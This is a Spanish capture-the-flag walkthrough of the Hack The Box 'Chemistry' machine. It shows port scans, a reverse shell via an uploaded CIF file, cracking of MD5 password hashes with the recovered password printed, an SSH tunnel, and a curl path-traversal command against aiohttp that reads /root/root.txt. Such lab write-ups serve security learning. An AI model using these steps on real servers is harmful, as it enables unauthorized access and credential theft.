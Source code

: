 **Conectarse a la VPN de HTB**  
`sudo openvpn --config Desktop/lab_a21josperjim.ovpn`  

![VPN config](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241122153549.png)  

**Escaneo de puertos abiertos**  
`nmap -sT -Pn 10.10.11.38`

![Nmap scan](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241122153515.png)  

**Sacar información de los puertos abiertos**  
`nmap -sT -sV -vvv -p 22,5000 -Pn 10.10.11.38` *(solo puertos abiertos)*

![Nmap detailed scan](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241122153619.png)  

**Probamos la IP con el puerto 5000 en el navegador**

![Web page](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241122160118.png)  

Nos permite registrarnos. Tras acceder, hay un dashboard:

![Dashboard](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241122164202.png)  
*Permite subir archivos CIF (Crystallographic Information File).*  

**Explotación de vulnerabilidad en archivos CIF**  
Buscando información, encontramos que estos archivos pueden permitir una *reverse shell*. El archivo a subir es: [Chemistry HTB RS](#).  

**Reverse Shell obtenida**

![Reverse shell](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241125160908.png)  

**Exploración de directorios**  
Usamos `ls | grep -P '^[\w\s\.\-\(\)]+$'` para filtrar nombres legibles: 

![Directories](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241125161252.png)  

**Base de datos en `/instance`**  
Encontramos hashes de contraseñas:  

![Database](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241125161513.png) 

![Hashes](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241125161712.png)  

**Descifrado de hash (MD5)**  
Usando herramientas como CrackStation, obtenemos la contraseña: `unicorniosrosados`.  

![Hash cracked](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241125161933.png)  

**Acceso al usuario `rosa` y primera flag**  

![User access](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241125162037.png) 

![First flag](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241125162058.png)  

**Conexión por SSH**  

![SSH login](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241125162814.png)  

**Escaneo de vulnerabilidades con `linpeas.sh`** 

![LinPEAS scan](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241127184141.png)  
*Se detectó una vulnerabilidad en la versión del sistema.*  

**Intento de explotación (sin éxito)**  

![Exploit attempt](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241127184305.png)
![Exploit attempt](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241127184402.png)
![Exploit attempt](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241127184654.png)
![Exploit attempt](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241127184828.png)

**Puerto 8080 accesible localmente**  

![Local port scan](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241127185034.png)  

**Tunel inverso para inspeccionar el servicio**  
`ssh -L 2000:localhost:8080 rosa@10.10.11.38`  

![Tunnel setup](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241127190008.png)  

**Vulnerabilidad de *Path Traversal* en `aiohtto/3.9.1`**  
Permite navegar por directorios con `../`:  

![Path traversal](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241127191035.png)  

**Explotación con `curl`**  
Usamos:  
`curl -s --path-as-is http://localhost:8080/assets/../../../../root/root.txt`
![root](https://github.com/a21josperjim/ciber/blob/main/Images/Pasted%20image%2020241127193354.png)  


